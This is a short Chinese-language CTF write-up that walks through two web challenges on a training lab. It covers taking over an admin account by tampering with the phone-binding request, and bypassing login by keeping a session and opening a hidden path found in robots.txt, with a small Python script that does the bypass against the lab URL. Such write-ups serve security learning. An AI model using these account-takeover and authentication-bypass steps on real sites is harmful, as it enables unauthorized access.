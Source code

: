 title: 网络信息安全攻防的综合关
author: Qianye
abbrlink: 101ebae5
tags:
  - ctf
categories:
  - ctf
date: 2018-02-27 22:35:00
---
# 渗透测试第一期
首先有注册和修改密码的选项，先注册一个账号并绑定手机号（查看网页源码得到），注册成功后，知道只有用admin账户登入，才能得到key。到忘记密码
选项去修改密码，发现弹不出手机的验证码。可以猜测到管理员的账号绑定的不是这个手机。突然想起在注册账号的时候有手机绑定，在手机绑定的时候，抓包，把用户名改成admin.绑定成功。然后在回到修改密码哪里，现在可以弹出验证码。修改后。弹出密码。用这个密码登入admin账户，登入成功。


# 没有注入到底能不能绕过登录
通过robots.txt中可知一个不可访问的文件，直接访问，提示要先登入。
用admin账户，密码随便，登入，提示密码错误，不管弹框，直接输入刚才不可访问文件的链接，得到key。原来后台没有对登入账户进行校验，只要保持一个session就行。
```bash
import requests
r = requests.Session()
url = 'http://lab1.xseclab.com/pentest3_307c0281537de1615673af8c1d54885a/'
data = {'username': 'admin', 'password': '123'}
r.post(url, data=data)
url2 = 'http://lab1.xseclab.com/pentest3_307c0281537de1615673af8c1d54885a/myadminroot/'
print (r.get(url2).content)
```
[后面一些题目的解答](https://www.40huo.cn/blog/hackinglab-comp.html)

